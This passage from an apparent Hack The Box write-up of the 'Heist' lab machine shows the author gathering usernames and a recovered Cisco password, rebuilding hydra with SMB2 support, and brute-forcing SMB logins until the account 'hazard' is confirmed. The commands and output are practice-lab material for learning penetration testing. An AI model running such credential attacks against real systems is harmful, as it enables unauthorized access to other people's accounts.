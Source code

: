 
It did not return anything interesting. Let's write down the credentials we have:
```
kali@kali:~/htb/boxes/heist/10.10.10.149$ cat users.txt 
rout3r
admin
hazard
kali@kali:~/htb/boxes/heist/10.10.10.149$ cat cisco-passwd.txt 
stealth1agent
```

And because we have the credentials in a nice readable format, we can use hydra to try them out via samba
```
kali@kali:~/htb/boxes/heist/10.10.10.149$ hydra -L users.txt -P cisco-passwd.txt smb2://10.10.10.149
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-01-10 14:47:08
[ERROR] Compiled without LIBSMBCLIENT support, module not available!
```

Hmm looks like my hydra does not know how to do SMB2.
I need to recompile hydra with LIBSMBClient for it to work.
```bash
sudo apt install libsmbclient-dev
# clone thc hydra and build/install as instructed
```

Ok now we should be able to run it:
```bash
kali@kali:~/htb/boxes/heist/10.10.10.149$ hydra -L users.txt -P cisco-passwd.txt smb2://10.10.10.149
Hydra v9.2-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-01-10 15:10:59
[WARNING] Workgroup was not specified, using "WORKGROUP"
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 3 tasks per 1 server, overall 3 tasks, 3 login tries (l:3/p:1), ~1 try per task
[DATA] attacking smb2://10.10.10.149:445/
[445][smb2] host: 10.10.10.149   login: hazard   password: stealth1agent
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-01-10 15:11:12
```

Looks like the user hazard can log in via samba!

Let's browse the shares via thunar, we can see two shares `ADMIN$` and `C$`, we don't have access to any of them with the `hazard` user though